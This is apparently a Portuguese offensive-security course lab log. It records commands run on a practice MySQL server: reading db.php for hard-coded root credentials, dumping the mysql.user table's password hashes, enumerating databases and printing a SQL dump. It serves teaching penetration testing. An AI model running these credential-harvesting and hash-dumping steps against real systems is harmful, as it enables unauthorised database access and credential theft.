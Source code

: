 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Exploration mysql

---

## comando : mysql --version

```ruby
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (x86_64) using readline 6.3
```

## comando : cat /var/www/html/prog/db.php
```ruby
  <!--?php
  
      $lnk = @mysql_connect("localhost", "root", "dbhacklfi");
      $db = mysql_select_db('deseclfi', $lnk);
  
  ?--> 

```

## comando : mysql -u root -pdbhacklfi -e "use mysql; select user, host, password from user;"
```ruby
  user	host	password
  root	localhost	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	rh	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	127.0.0.1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	::1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  debian-sys-maint	localhost	*300DD417C72920F12EBD3A01236771655230AC5A
```

## comando : mysql -u root -pdbhacklfi -e "show databases;"

```ruby
  Database
  information_schema
  deseclfi
  mysql
  performance_schema
```

## comando : mysql -u root -pdbhacklfi -e "use deseclfi; show tables;"

```ruby
  Tables_in_deseclfi
  submissions
```
## comando: mysql -u root -pdbhacklfi -e "use mysql; show tables;"

```ruby
  Tables_in_mysql
  columns_priv
  db
  event
  func
  general_log
  help_category
  help_keyword
  help_relation
  help_topic
  host
  ndb_binlog_index
  plugin
  proc
  procs_priv
  proxies_priv
  servers
  slow_log
  tables_priv
  time_zone
  time_zone_leap_second
  time_zone_name
  time_zone_transition
  time_zone_transition_type
  user

```


## comando : cat /var/www/html/BANCO\ DE\ DADOS/bd.sql
```ruby
  -- MySQL dump 10.13  Distrib 5.1.63, for debian-linux-gnu (i486)
  --
  -- Host: localhost    Database: cfp
  -- ------------------------------------------------------
  -- Server version	5.1.63-0+squeeze1
  
  /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
  /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
  /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
  /*!40101 SET NAMES utf8 */;
  /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
  /*!40103 SET TIME_ZONE='+00:00' */;
  /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
  /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
  /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
  /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
  
  --
  -- Table structure for table `submissions`
  --
  
  DROP TABLE IF EXISTS `submissions`;
  /*!40101 SET @saved_cs_client     = @@character_set_client */;
  /*!40101 SET character_set_client = utf8 */;
  CREATE TABLE `submissions` (
    `id` mediumint(9) NOT NULL AUTO_INCREMENT,
    `email` varchar(150) DEFAULT NULL,
    `password` varchar(50) DEFAULT NULL,
    `title` varchar(150) DEFAULT NULL,
    `description` text,
    `bio` text,
    `filename` varchar(150) DEFAULT NULL,
    PRIMARY KEY (`id`)
  ) ENGINE=MyISAM DEFAULT CHARSET=latin1;
  /*!40101 SET character_set_client = @saved_cs_client */;
  
  --
  -- Dumping data for table `submissions`
  --
  
  LOCK TABLES `submissions` WRITE;
  /*!40000 ALTER TABLE `submissions` DISABLE KEYS */;
  /*!40000 ALTER TABLE `submissions` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  
  /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
  /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
  /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
  /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
  /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
  /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
  /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
  
  -- Dump completed on 2017-01-09 23:37:44
```

